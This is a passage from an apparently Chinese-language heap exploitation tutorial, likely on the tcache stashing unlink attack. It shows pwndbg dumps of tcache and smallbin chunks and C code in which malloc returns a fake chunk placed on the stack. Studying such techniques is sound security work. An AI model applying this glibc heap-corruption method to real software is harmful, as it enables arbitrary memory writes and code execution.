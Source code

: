 ```c
0x5555557573a0:	0x00005555557576c0	0x0000555555757010 #chunk_lis[2](free-tcachebin)
    							   #0x00007ffff7dcdd30
......
0x555555757430:	0x00000000000000a0	0x00000000000000a0 #chunk_lis[3](free-tcachebin)
0x555555757440:	0x0000000000000000	0x0000555555757010
......
0x5555557574d0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[4](free-tcachebin)
0x5555557574e0:	0x0000555555757440	0x0000555555757010
......
0x555555757570:	0x0000000000000000	0x00000000000000a1 #chunk_lis[5](free-tcachebin)
0x555555757580:	0x00005555557574e0	0x0000555555757010
......
0x555555757610:	0x0000000000000000	0x00000000000000a1 #chunk_lis[6](free-tcachebin)
0x555555757620:	0x0000555555757580	0x0000555555757010
......
0x5555557576b0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[7](free-tcachebin)
0x5555557576c0:	0x0000555555757620	0x0000555555757010
......
0x555555757750:	0x0000000000000000	0x00000000000000a1 #chunk_lis[8](free-tcachebin)
0x555555757760:	0x00005555557576c0	0x0000000000000000
......
0x5555557577f0:	0x0000000000000000	0x00000000000000b1 #chunk(malloc)
......
0x5555557578a0:	0x0000000000000000	0x0000000000020761 #top_chunk
......
0x555555757950:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx stack_var 
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x00005555557573a0	0x0000555555757010
0x7fffffffdce0:	0x00007ffff7dcdd30	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
0x7fffffffdd00:	0x0000000000000000	0x0000000000000000
0x7fffffffdd10:	0x0000000000000000	0x0000000000000000
0x7fffffffdd20:	0x0000000000000000	0x0000000000000000
0x7fffffffdd30:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

注意现在的stack_var和堆块0x555555757390、0x5555557576c0都有两个bin：smallbin和tcachebin。

现在再次申请一次即可控制stack上的地址（b 79->c）：

```c
    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
```
